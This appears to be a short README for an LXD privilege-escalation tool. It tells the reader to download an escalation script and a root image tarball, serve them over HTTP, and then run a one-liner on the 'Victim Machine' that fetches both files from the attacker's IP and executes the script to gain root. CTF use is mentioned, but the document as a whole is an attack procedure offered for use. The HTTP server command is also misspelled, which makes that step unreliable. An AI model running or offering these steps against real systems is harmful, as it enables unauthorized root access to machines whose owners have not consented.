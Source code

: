 #  Instructions

### copy the following command in your Machine

 >  wget "https://github.com/CyberJunnkie/LXDAutoPrivilegeEscalator/blob/master/lxd.sh" && wget "https://github.com/CyberJunnkie/LXDAutoPrivilegeEscalator/blob/master/root.tar.gz"

 > Then serve a http server in the directory where you just installed the above files
 > python3 -m simple.http 80

 > Now on Victim Machine type the following command
 
  #### If you are doing a ctf and connected to the vpn,then type your vpn ip in commands below 
 
 > wget "http://<YOURIP>/lxd.sh" && wget "http://<YOURIP>/root.tar.gz" && chmod +x lxd.sh && ./lxd.sh root.tar.gz

  
 

